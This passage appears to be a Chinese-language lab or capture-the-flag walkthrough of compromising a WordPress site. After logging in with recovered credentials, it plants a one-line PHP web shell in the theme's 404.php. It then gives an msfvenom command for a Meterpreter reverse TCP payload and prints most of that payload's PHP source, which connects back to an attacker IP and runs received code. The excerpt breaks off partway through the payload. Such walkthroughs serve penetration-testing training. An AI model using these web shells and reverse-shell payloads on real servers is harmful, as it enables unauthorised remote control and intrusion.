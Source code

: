 **C 刀**  

拿到上面三对账号密码尝试登陆 Wordpress，只有 admin 与 SuperSecretPassword 可以登陆

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibeFKBD4IxCbXZ8sQYhY2yeUEuAgrMIMfmaMGXxewTSYMvYfu4l37AVpNsiagCxhgBmRCrr5kOaHTQ/640?wx_fmt=png)

既然成功登陆到 Wordpress，这次还是利用 404 页面拿 shell

试着直接往 404 页面末尾加入一句话木马

<?php @assert($\_POST\[x\]); ?>

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibeFKBD4IxCbXZ8sQYhY2yesaxzjxPXQSMo3oO6gwqWibAcicFqChaB4EwTOsFdYw2FLEftC8BsopQw/640?wx_fmt=png)

用蚁剑连接失败，用 C 刀可以连接 404 页面

https://192.168.50.78/wordpress/wp-content/themes/Kratos-2/404.php   密码 x

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0ibeFKBD4IxCbXZ8sQYhY2ye90wTu9AbSrwZgicOgzQnWMDVYAKiaUxwKjVV0MicNv7HPqh5kicrZfjxibQ/640?wx_fmt=png)

试着通过 C 刀的模拟终端来提权发现不行，干脆直接重新上传个 webshell 即可，但不知道为啥 C 刀一上传文件软件就崩溃了，算了，换个方式

**msf 反弹 shell**  

通过 msf 生成 php 格式的 webshell，将内容复制刀 404.php 中

msfvenom -p php/meterpreter/reverse\_tcp LHOST=192.168.50.131 LPORT=9999 -f raw >shell.php

得到 shell.php 的具体内容如下：

```
/\*<?php /\*\*/ error\_reporting(0); $ip = '192.168.50.131';
$port = 9999; 
if (($f = 'stream\_socket\_client') && is\_callable($f)) { $s = $f("tcp://{$ip}:{$port}");
$s\_type = 'stream';
}
if (!$s && ($f = 'fsockopen') && is\_callable($f)) { $s = $f($ip, $port); 
$s\_type = 'stream'; 
} 
if (!$s && ($f = 'socket\_create') && is\_callable($f)) { $s = $f(AF\_INET, SOCK\_STREAM, SOL\_TCP); 
$res = @socket\_connect($s, $ip, $port);
if (!$res) { die(); 
}
$s\_type = 'socket';
}
if (!$s\_type) { die('no socket funcs'); 
}
if (!$s) { die('no socket'); 
}
switch ($s\_type) { case 'stream': $len = fread($s, 4); 
break; 
case 'socket': $len = socket\_read($s, 4); break; 
}
if (!$len) { die();
}
$a = unpack("Nlen", $len); 
$len = $a\['len'\]; $b = ''; 
while (strlen($b) < $len) { switch ($s\_type) { case 'stream': $b .= fread($s, $len-strlen($b)); 
break; case 'socket': $b .= socket\_read($s, $len-strlen($b)); 
break; 
} 
}
$GLOBALS\['msgsock'\] = $s; 
$GLOBALS\['msgsock\_type'\] = $s\_type;
if (extension\_loaded('suhosin') && ini\_get('suhosin.executor.disable\_eval')) { $suhosin\_bypass=create\_function('', $b);
$suhosin\_bypass(); 
}
```
